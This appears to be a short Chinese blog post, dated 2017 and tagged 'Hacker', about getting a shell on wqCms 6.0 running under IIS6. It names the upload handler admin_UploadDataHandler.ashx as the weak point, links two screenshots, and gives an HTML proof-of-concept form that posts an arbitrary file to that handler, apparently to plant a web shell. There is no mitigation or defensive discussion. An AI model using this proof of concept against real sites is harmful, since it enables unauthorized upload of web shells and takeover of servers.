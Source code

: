 ```yaml
---
title: wqCms6.0在IIS6的Getshell
slug: wqcms-6.0-iis6-getshell
date: 2017-02-22 21:20:55
tags:
- Hacker
categories:
- Hacker
---
```

2017-02-15发布
# 一、漏洞利用点
漏洞文件:admin_UploadDataHandler.ashx 自定义构造上传点
<!--more-->
# 二、hack it
![77e968abd5e5cb3e2c4cdfbe620568fa.jpg](https://ooo.0o0.ooo/2017/02/22/58ad9095a4fe5.jpg)
![7281e4d1334393ddcc1c4926ad0065a8.jpg](https://ooo.0o0.ooo/2017/02/22/58ad8ebcee2cf.jpg)
# 三、POC
```html
<html>
    <body>
        <form action="http://127.0.0.1/admin_UploadDataHandler.ashx" method="POST"enctype="multipart/form-data">
            <input  type="file" name="uploadify" />
            <input  type="text" name="saveFile" value="admin" />
            <input type="submit" name="Upload" value="Submit Query" />
        </form>
    </body>
</html>
```
转自群友论坛文章[wobushou](http://loner.fm/article.php?id=24236)
